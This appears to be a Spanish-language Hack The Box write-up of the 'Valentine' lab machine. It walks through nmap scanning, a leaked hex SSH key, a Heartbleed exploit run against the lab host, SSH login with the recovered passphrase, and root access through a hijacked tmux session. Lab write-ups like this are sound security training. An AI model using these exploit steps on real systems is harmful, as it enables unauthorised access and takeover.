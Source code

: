 # 🕵️ Reconocimiento

Enviamos un `ping` para verificar si la máquina está activa y estimar el sistema operativo por TTL:

```bash
ping -c 1 10.10.10.79
```

![[Valentine1.png]]

- **TTL = 63** → Cercano a 64, se asume que es **Linux**.

---

## 🔍 Escaneo de puertos con Nmap

1. Escaneo completo de puertos abiertos:
   ```bash
   nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.79 -oG allports
   ```
   ![[Valentine2.png]]

2. Escaneo detallado con detección de versión y scripts básicos:
   ```bash
   nmap -sCV -p22,80,443 10.10.10.79 -oN target
   ```
   ![[Valentine3.png]]

- Puertos abiertos:
  - **22:** SSH
  - **80:** HTTP
  - **443:** HTTPS

---

## 🌐 Enumeración web

### HTTP
http://10.10.10.79

![[Valentine4.png]]

### HTTPS

https://10.10.10.79

![[Valentine5.png]]

- Nmap sugiere posibles directorios `/dev/` y `/index/`:
  ![[Valentine6.png]]

### Directorio `/dev/`
http://10.10.10.79/dev

![[Valentine7.png]]
http://10.10.10.79/dev/hype_key
- Encontramos `hype_key`:
  ```bash
xxd -r -p key.txt > id_rsa
chmod 600 id_rsa # y le di este permiso para poder ejecutarlo con el ssh
  ```
  ![[Valentine8.png]]
  ![[Valentine9.png]]

---

## ❤️‍🔥 Heartbleed

1. Verificar vulnerabilidad:
   ```bash
   nmap --script ssl-heartbleed -p80,443,22 10.10.10.79
   ```
   ![[Valentine10.png]]
2. Exploit con Searchsploit:
   ```bash
   searchsploit -m multiple/remote/32764.py
   python2.7 32764.py 10.10.10.79 -p 443
   ```
   ![[Valentine11.png]]
3. Decodificar cadena Base64:
   ```bash
   echo "BASE64_STRING" | base64 -d > id_rsa
   chmod 600 id_rsa
   ```
   ![[Valentine12.png]]
   ![[Valentine13.png]]

---

## 🔐 Acceso SSH

```bash
ssh -o PubkeyAcceptedKeyTypes=+ssh-rsa \
    -o HostKeyAlgorithms=+ssh-rsa \
    -i id_rsa hype@10.10.10.79
```
- **Passphrase:** `heartbleedbelievethehype`

![[Valentine14.png]]

---

## 🪟 Tratamiento de la TTY

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows 37 columns 174
```

---

## 🧗‍♂️ Escalada de privilegios

1. Listar procesos tmux:
   ```bash
   ps aux | grep tmux
   ```
   ![[Valentine15.png]]
2. Hijack de sesión tmux:
   ```bash
   sudo /usr/bin/tmux -S /.devs/dev_sess
   ```
   ![[Valentine16.png]]

---

# 🧠 Notas


---

# 📚 Créditos

- Writeup oficial de HTB  
- [Writeup de adrijmnz](https://github.com/adrijmnz/WriteUps/blob/main/HackTheBox/Easy/Valentine/Valentine.md)
